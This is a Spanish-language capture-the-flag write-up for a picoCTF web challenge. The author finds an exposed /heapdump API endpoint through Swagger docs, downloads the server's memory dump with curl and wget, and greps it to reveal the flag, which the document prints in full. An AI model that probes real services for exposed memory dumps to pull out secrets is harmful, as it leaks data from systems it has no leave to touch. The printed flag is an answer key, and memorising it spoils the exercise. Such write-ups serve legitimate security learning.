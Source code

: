 
Description
Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.
The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.
The website is running picoCTF News

nos da un link al cual vamos a entrar
nos vamos a enfocar en el apartado de 
Explora el desarrollo backend con nosotros #nodejs , #swagger UI , #API Documentación
asi como indica en el reto

nos vamos al ultimo que se llama como el reto y lo ejecutamos
y nos da un archivo para descargar, pero tambien nos da una lista de comandos para hacer la busqueda

curl -X 'GET' \
  'http://verbal-sleep.picoctf.net:52779/heapdump' \
  -H 'accep: */*'

le hacemos un cat al archivo juto con un grep pico para que nos de la bandera

 wget http://verbal-sleep.picoctf.net:52779/heapdump


luisquintero@DESKTOP-P53ABHB:~$ cat heapdump |grep pico
picoCTF{Pat!3nt_15_Th3_K3y_f1179e46}
"\nwindow.onload = function() {\n  // Build a system\n  var url = window.location.search.match(/url=([^&]+)/);\n  if (url && url.length > 1) {\n    url = decodeURIComponent(url[1]);\n  } else {\n    url = window.location.origin;\n  }\n  var options = {\n  \"swaggerDoc\": {\n    \"openapi\": \"3.0.0\",\n    \"info\": {\n      \"title\": \"picoCTF News API\",\n      \"version\": \"1.0.0\",\n      \"description\": \"Welcome to the picoCTF News API documentation! This documentation provides a detailed overview of the available API endpoints for managing and retrieving news posts.\"\n    },\n    \"paths\": {\n      \"/\": {\n        \"get\": {\n          \"tags\": [\n            \"Free\"\n          ],\n          \"summary\": \"Welcome page\",\n          \"responses\": {\n            \"200\": {\n              \"description\": \"Returns a welcome message.\"\n            }\n          }\n        }\n      },\n      \"/about\": {\n        \"get\": {\n          \"tags\": [\n            \"Free\"\n          ],\n          \"summary\": \"About Us\",\n          \"responses\": {\n            \"200\": {\n              \"desc",
"Welcome to the picoCTF News API documentation! This documentation provides a detailed overview of the available API endpoints for managing and retrieving news posts.",
"picoCTF News API",
"verbal-sleep.picoctf.net:52779",
luisquintero@DESKTOP-P53ABHB:~$


Y ahi nos sale la bandera
picoCTF{Pat!3nt_15_Th3_K3y_f1179e46}


Bandera

picoCTF{Pat!3nt_15_Th3_K3y_f1179e46}

Referencias
https://www.youtube.com/watch?v=k1OJJ70v9nk

